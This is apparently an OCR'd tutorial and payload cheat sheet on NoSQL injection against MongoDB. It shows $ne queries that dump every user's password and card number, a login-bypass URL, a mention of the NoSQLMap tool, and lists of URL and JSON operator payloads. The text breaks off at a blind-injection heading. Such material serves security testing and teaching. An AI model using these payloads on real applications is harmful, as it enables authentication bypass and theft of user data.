 ----
##Attacking Applications##

```
> db.users.find({"username":"jim", "password": {$ne: "0x00"}})
{ "_id" : ObjectId("55d5d719d60515e316247247"), "username" : "jim", "password" : "jim", "email" : "jim@gmail.com", "cardnumber" : 54321 }
```

If you notice, the above MongoDB command is fetching all the documents where the username is "jim" and password not equals to "0x00".

```
> db.users.find({"username": {$ne: "0x00"}, "password": {$ne: "0x00"}})
{ "_id" : ObjectId("55d5d6f2d60515e316247246"), "username" : "tom", "password" : "tom", "email" : "tom@gmail.com", "cardnumber" : 12345 }
{ "_id" : ObjectId("55d5d719d60515e316247247"), "username" : "jim", "password" : "jim", "email" : "jim@gmail.com", "cardnumber" : 54321 }
{ "_id" : ObjectId("55d5d739d60515e316247248"), "username" : "bob", "password" : "bob", "email" : "bob@gmail.com", "cardnumber" : 22222 }
```

This time, we are able to see all the documents that do not meet the condition username and password as "jim".

```
http://localhost/index.php?username[$ne]=test&password[$ne]=test
```


----
##Automated Assessments##

We are going to use a very nice tool called NoSQLMap for this part.

http://github.com/tcstool/nosqlmap
- `param[$ne]=x`
- `param[$gt]=`
- `param[$gte]=`
- `param[$lt]=~`
- `param[$lte]=~`
- `param[$regex]=.*`

#### JSON

- `{param: {$ne: 'x'}}`
- `{param: {$gt: ''}}`
- `{param: {$gte: ''}}`
- `{param: {$lt: '~'}}`
- `{param: {$lte: '~'}}`
- `{param: {$regex: '.*'}}`
- `{param: {$nin: []}}`

## Blind NoSQLi Payloads:

#### URL-Encoded
